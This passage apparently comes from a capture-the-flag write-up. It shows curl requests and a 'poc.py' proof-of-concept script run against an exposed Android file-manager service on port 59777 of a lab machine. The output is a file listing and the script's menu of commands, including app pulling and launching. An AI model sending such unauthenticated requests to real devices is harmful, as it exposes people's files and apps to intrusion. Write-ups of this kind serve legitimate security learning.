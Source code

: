 The service takes a JSON POST payload with commands like `listFiles`, `listPics`, `listVideos`, etc.

`listFiles` returns a lot:

```

oxdf@parrot$ curl 10.10.10.247:59777 -d '{"command": "listFiles"}'
[
{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", },  
{"name":"vndservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
{"name":"vendor_service_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },       
{"name":"vendor_seapp_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_property_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
{"name":"vendor_hwservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_file_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
{"name":"vendor", "time":"3/25/20 12:12:33 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"ueventd.rc", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"5.00 KB (5,122 Bytes)", }, 
{"name":"ueventd.android_x86_64.rc", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"464.00 Bytes (464 Bytes)", }, 
{"name":"system", "time":"3/25/20 12:12:31 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"sys", "time":"6/26/21 03:03:38 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
...[snip]...

```

#### Script

Having seen how to just interact with the port over `curl`, the script makes it a bit easier to organize:

```

oxdf@parrot$ python poc.py list

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info. Package name parameter is needed
appPull: Pull an app from the device
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is needed

```

